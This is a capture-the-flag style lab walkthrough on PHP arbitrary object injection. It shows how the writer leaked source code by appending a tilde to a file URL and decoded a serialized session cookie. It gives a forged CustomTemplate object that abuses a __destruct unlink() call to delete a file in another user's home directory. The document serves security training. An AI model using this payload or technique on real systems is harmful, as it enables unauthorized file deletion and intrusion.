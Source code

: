 # Arbitrary object injection in PHP

 This lab uses a serialization-based session mechanism and is vulnerable to arbitrary object injection as a result. To solve the lab, create and inject a malicious serialized object to delete the morale.txt file from Carlos's home directory. You will need to obtain source code access to solve this lab.

You can log in to your own account using the following credentials: wiener:peter 

### solution

- start by logging in using **wiener:peter** creds but intercept this request

<img src=./images/Capture0.PNG alt="img0" width="700"/>

- we did that cuz we want to get the sitemap of the site
- from the sitemap we notice interesting file **CustomTemplate.php**

<img src=./images/Capture10.PNG alt="img10" width="700"/>

- try appending **tilda ~** to this file in the url.
- we got the source code

```php
<?php

class CustomTemplate {
    private $template_file_path;
    private $lock_file_path;

    public function __construct($template_file_path) {
        $this->template_file_path = $template_file_path;
        $this->lock_file_path = $template_file_path . ".lock";
    }

    private function isTemplateLocked() {
        return file_exists($this->lock_file_path);
    }

    public function getTemplate() {
        return file_get_contents($this->template_file_path);
    }

    public function saveTemplate($template) {
        if (!isTemplateLocked()) {
            if (file_put_contents($this->lock_file_path, "") === false) {
                throw new Exception("Could not write to " . $this->lock_file_path);
            }
            if (file_put_contents($this->template_file_path, $template) === false) {
                throw new Exception("Could not write to " . $this->template_file_path);
            }
        }
    }

    function __destruct() {
        // Carlos thought this would be a good idea
        if (file_exists($this->lock_file_path)) {
            unlink($this->lock_file_path);
        }
    }
}

?>
```

- from the source code we notice that their is a magic method **__destruct()**
- in this method we find **unlink()** method that will delete the file stored in **lock_file_path**
- back to the request we intercepted and note that the cookie has the value: `Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJhdWZkeXVlb2ZocWt0b3c1dzVvd3UzcXhsZGZubmJ3bCI7fQ%3d%3d`
- decode it in cyberchef and u will get this: `O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"aufdyueofhqktow5w5owu3qxldfnnbwl";}`

<img src=./images/Capture11.PNG alt="img11" width="700"/>

- change it to `O:14:"CustomTemplate":1:{s:14:"lock_file_path";s:23:"/home/carlos/morale.txt";}` then encode it and send the request again.
- congratzzzzzzzzzzzzzzzzzzzzzz